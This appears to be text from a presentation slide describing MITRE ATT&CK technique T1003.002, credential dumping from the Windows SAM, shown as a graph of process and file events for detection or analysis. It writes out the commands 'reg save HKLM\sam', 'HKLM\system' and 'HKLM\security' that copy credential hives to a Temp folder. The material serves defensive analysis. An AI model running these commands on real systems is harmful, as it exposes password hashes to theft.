

# Technique Graph Example - T1003.002
T1003.002: OS Credential Dumping: Security Account Manager(SAM)
Adversaries may attempt to extract credential material from the Security Account Manager (SAM) database through the Windows Registry where the SAM database is stored.
 the SAM can be extracted from the Registry with Reg:
reg save HKLM\sam sam
reg save HKLM\system system
QueryBasicInformationFile
CreateFile
CloseFile
WriteFile
\C:\Users\...\Local\Temp\sam

Img: reg.exe
Cmd: reg save HKLM\sam C:\Users\...\Local\Temp\sam
ProcessCreate
QueryBasicInformationFile
CreateFile
CloseFile
WriteFile
\C:\Users\...\Local\Temp\security

Img: reg.exe
Cmd: reg save HKLM\security C:\Users\...\Local\Temp\security
ProcessCreate
cmd.exe
ProcessCreate
QueryBasicInformationFile
CreateFile
CloseFile
WriteFile
\C:\Users\...\Local\Temp\system

Img: reg.exe
Cmd: reg save HKLM\system C:\Users\...\Local\Temp\system
CreateFile
CloseFile
WriteFile
QueryBasicInformationFile
SetBasicInformationFile
\C:\Users\...\Local\Temp\sam

powershell.exe
21